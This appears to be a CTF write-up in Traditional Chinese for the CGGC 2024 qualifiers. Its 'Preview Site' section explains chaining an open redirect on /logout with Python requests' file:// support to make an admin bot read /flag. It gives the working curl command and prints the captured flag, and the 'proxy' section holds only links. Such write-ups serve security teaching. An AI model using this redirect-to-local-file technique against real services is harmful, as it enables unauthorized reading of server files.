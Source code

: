 +++
Title = "CGGC 2024 Quals Writeup"
Date = "2024-11-04 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "Writeup"]
Categories = ["CTF"]
menu = "main"
+++

這次和 \_Viεcon\_、Andy Lu 和 [Darrin Lin](https://darrin.cc/) 組隊參加國科會舉辦的 [2024 CGGC 網路守護者挑戰賽](https://cggc.nchc.org.tw/)。

![solves](solves.webp)
我花了四個多小時就把 Web 題解完，後面盯著 Autonomous Systems 相關的文件十幾個小時沒解開那題 Network Security。

## Preview Site 🔍

題目作者：[Vincent55](https://vincent55.tw/)\
[官方解](https://github.com/Vincent550102/My-CTF-Challenge/tree/main/cggc_2024_qual#preview-site-)

{{<details "Source code"></details>}}

登入後可以提供一個 URI 給 Admin Bot 去 Fetch，但 URI 必須以 `http://previewsite/` 開頭，並且只會跟著 Redirect 一次。

在 `/logout` 有一個 `next` 參數，可以用來 Redirect 到任意網址，剛好 `requests` 看得懂 `file://` Protocol，這裡可以用來 Redirect 到 `file:///flag`。

```bash
curl 'http://10.99.66.5:10002/fetch' \
  -H 'Cookie: session=<Guest 的 Session>' \
  --data-raw 'url=http://previewsite/logout?next=file:///flag'

<h3>Result:</h3>
<pre><code>CGGC{open_redirect_to_your_local_file_2893hrgiubf3wq1}
</code></pre>
```

## proxy

題目作者：[Chumy](https://blog.chummydns.com/)\
[原始碼](https://github.com/Jimmy01240397/My-CTF-Challenges/tree/master/cggc-2024/proxy)
